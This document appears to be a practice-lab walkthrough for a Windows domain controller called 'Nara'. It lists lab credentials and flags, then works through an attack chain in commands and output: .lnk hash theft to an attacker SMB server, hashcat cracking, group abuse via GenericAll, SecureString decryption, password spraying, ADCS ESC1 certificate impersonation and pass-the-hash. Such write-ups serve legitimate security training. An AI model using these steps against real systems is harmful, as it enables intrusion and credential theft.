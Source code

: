 ____

# Nara (OSEP-Level)

## Credentials

Administrator/DSRM: RadioUnsecuredQuaking00 Jodie Summers: hHO_S9gff7ehXw Tracy White: zqwj041FGX

proof.txt : 74acc5afc945b0466f0f8a17e7785ac6 (On Administrator) local.txt : d2ad2c8a2dc3c0ae33b7b96951f3626d (On Tracy)

## Walkthrough

```
sudo nmap -sV 172.16.201.26
[sudo] password for xct:
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-02 19:43 CEST
Nmap scan report for 172.16.201.26
Host is up (0.11s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-02 17:43:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: NARA; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.08 seconds
```

Add to /etc/hosts: nara-security.com, then enumerate shares:

```
smbclient -L \nara-security.com
Password for [WORKGROUPxct]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nara            Disk      company share
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to nara-security.com failed (Error NT_STATUS_HOST_UNREACHABLE)
Unable to connect with SMB1 -- no workgroup available

smbclient \\nara-security.com\nara
Password for [WORKGROUPxct]:
Try "help" to get a list of possible commands.
smb: > ls
  .                                   D        0  Sun Jul 30 16:31:58 2023
  ..                                DHS        0  Sun Jul 30 16:46:51 2023
  Documents                           D        0  Sun Jul 30 16:03:13 2023
  Important.txt                       A     2200  Sun Jul 30 16:05:31 2023
  IT                                  D        0  Sun Jul 30 18:22:50 2023
```

Important.txt shows a company message that every employee is supposed to check the Documents folder regulary (for new compliance documents). We can mount a hash stealing attack by placing a .lnk file and listening with impacket's smbserver.

```
# https://github.com/xct/hashgrab
python3 ~/tools/hashgrab/hashgrab.py 10.9.1.18 xct

impacket-smbserver share share -smb2support

put @xct.lnk
```

Hash will come:

```
[*] Tracy.White::NARASEC:aaaaaaaaaaaaaaaa:84387905bda9c7db82e1616338dfaf32:0101000000000000802770856cc5d9014a531f4d2ec72fd5000000000100100062006a006f006e006400690070006e000300100062006a006f006e006400690070006e0002001000790074006700760074004d006400790004001000790074006700760074004d006400790007000800802770856cc5d9010600040002000000080030003000000000000000010000000020000043be9e4206b100be35271b993dd1189be857cb403801724172ef776f1d4486130a0010000000000000000000000000000000000009001c0063006900660073002f00310030002e0039002e0031002e00310038000000000000000000
```

Crack the hash via hashcat:

```
hashcat -m 5600 -a0 hash /usr/share/wordlists/rockyou.txt  --force

TRACY.WHITE::NARASEC:aaaaaaaaaaaaaaaa:da87a69ed90a11dc933ad1163c96d894:01010000000000000053c3906cc5d901fc1f5779bd994b61000000000100100062006a006f006e006400690070006e000300100062006a006f006e006400690070006e0002001000790074006700760074004d006400790004001000790074006700760074004d0064007900070008000053c3906cc5d9010600040002000000080030003000000000000000010000000020000043be9e4206b100be35271b993dd1189be857cb403801724172ef776f1d4486130a0010000000000000000000000000000000000009001c0063006900660073002f00310030002e0039002e0031002e00310038000000000000000000:zqwj041FGX
```

Run bloodhound with these new domain user creds:

```
cme ldap nara.nara-security.com -u Tracy.White -p 'zqwj041FGX' --bloodhound -c all -ns 172.16.201.26
```

Reachable High Value Targets shows an attack path from tracy.white to the DC. She has GenericAll on the Remote Access Group, which in turn can PSRemote into the DC. So we add ourselves to the group and can then get a shell on the Domain Controller:

```
# https://github.com/franc-pentest/ldeep.git
python3 __main__.py ldap -u tracy.white -p 'zqwj041FGX' -d nara-security.com -s ldap://nara-security.com add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM"

[+] User CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM sucessfully added to CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM
```

```
evil-winrm -u tracy.white -i nara.nara-security.com
```

Read the flag on the users desktop and automation.txt in "C:UsersTracy.WhiteDocuments".

```
*Evil-WinRM* PS C:Users	racy.whiteDocuments> type ..Desktoplocal.txt
...

type automation.txt
Enrollment Automation Account

01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b
```

This is microsofts recommended way to store credentials for automation purposes, lets try to decrypt them. First save the string in a new file (without the first line), then:

```
$pw = Get-Content .creds.txt | ConvertTo-SecureString
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
$UnsecurePassword

hHO_S9gff7ehXw
```

We don't know which user this is for though. The "Enrollment Automation Account" hints at a user from the enrollment group (or you just spray) which only has 3 users, Jemma, Jodie & Jasmine.

```
cme smb nara-security.com -u JEMMA.HUMPHRIES -p 'hHO_S9gff7ehXw' 
SMB         172.16.201.26   445    NARA             [-] nara-security.comJemma.Humphries:hHO_S9gff7ehXw STATUS_LOGON_FAILURE

cme smb nara-security.com -u JASMINE.ROBERTS -p 'hHO_S9gff7ehXw'
SMB         172.16.201.26   445    NARA             [-] nara-security.comJasmine.Roberts:hHO_S9gff7ehXw STATUS_LOGON_FAILURE

cme smb nara-security.com -u JODIE.SUMMERS -p 'hHO_S9gff7ehXw'
SMB         172.16.201.26   445    NARA             [*] Windows 10.0 Build 20348 x64 (name:NARA) (domain:nara-security.com) (signing:True) (SMBv1:False)
SMB         172.16.201.26   445    NARA             [+] nara-security.comJODIE.SUMMERS:hHO_S9gff7ehXw
```

Enrollment leads us to certificates and there is infact a CA on the Domain Controller. We can gather additional bloodhound data from any domain user:

```
certipy-ad find -u JODIE.SUMMERS -p 'hHO_S9gff7ehXw' -dc-ip nara-security.com  -dns-tcp -ns 172.16.201.26 -bloodhound
...
[*] Got CA configuration for 'NARA-CA'
[*] Saved BloodHound data to '20230802203609_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
```

This shows that the Enrollment group as GenericAll on the NARAUSER template, which is also known as the ESC4 scenario (full control over a template). Additionally any user supplied subject is allowed, so it is also directly vulnerable to ESC1 from any user in the enrollment group.

```
certipy-ad req -username JODIE.SUMMERS -password 'hHO_S9gff7ehXw' -target nara-security.com -ca NARA-CA -template NARAUSER -upn administrator@nara-security.com -dc-ip 172.16.201.26 -debug
...
[*] Saved certificate and private key to 'administrator.pfx'


certipy auth -pfx administrator.pfx -domain nara-security.com -username administrator -dc-ip 172.16.201.26
...
[*] Got hash for 'administrator@nara-security.com': aad3b435b51404eeaad3b435b51404ee:d35c4ae45bdd10a4e28ff529a2155745

```

Now we can pass the hash as administrator via WinRM and read the final flag:

```
evil-winrm -u administrator -i nara-security.com -H d35c4ae45bdd10a4e28ff529a2155745
```